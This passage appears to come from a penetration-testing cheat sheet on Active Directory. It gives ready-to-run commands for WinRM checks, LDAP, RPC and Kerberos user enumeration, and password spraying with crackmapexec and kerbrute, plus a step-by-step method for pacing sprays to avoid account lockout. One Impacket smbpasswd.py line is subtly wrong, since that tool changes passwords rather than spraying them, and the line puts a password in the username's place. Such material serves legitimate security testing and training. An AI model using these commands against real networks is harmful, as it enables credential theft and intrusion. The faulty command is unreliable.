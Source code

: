 ### WinRM Enumeration

```bash
# Check for WinRM availability
crackmapexec winrm 10.10.10.0/24

# Test credentials over WinRM
evil-winrm -i 10.10.10.100 -u user -p 'password'
```

## Password Spraying

Password spraying involves trying a single common password against many usernames, avoiding account lockout policies.

### User Enumeration First

```bash
# LDAP user enumeration
ldapsearch -x -h 10.10.10.100 -D "cn=user,dc=domain,dc=local" -w "password" -b "dc=domain,dc=local" "(objectClass=user)" sAMAccountName | grep sAMAccountName

# RPC user enumeration
rpcclient -U "" -N 10.10.10.100 -c "enumdomusers"

# Kerbrute for user enumeration without authentication
kerbrute userenum --dc 10.10.10.100 -d domain.local userlist.txt
```

### Password Spraying Tools

```bash
# Using crackmapexec against SMB
crackmapexec smb 10.10.10.100 -u users.txt -p 'Spring2025!' --continue-on-success

# Using kerbrute for Kerberos pre-auth
kerbrute passwordspray --dc 10.10.10.100 -d domain.local users.txt 'Spring2025!'

# Using Impacket's smbpasswd.py
python3 smbpasswd.py domain.local/'Spring2025!'@10.10.10.100 users.txt

# Check user lockout policy first
crackmapexec smb 10.10.10.100 -u validuser -p validpass --pass-pol
```

### Recommended Password Spray Approach

1. Identify lockout threshold (e.g., 5 attempts before lockout)
2. Collect as many usernames as possible
3. Try 1 password against all users
4. Wait for lockout counter to reset (typically 30 mins)
5. Try next password against all users
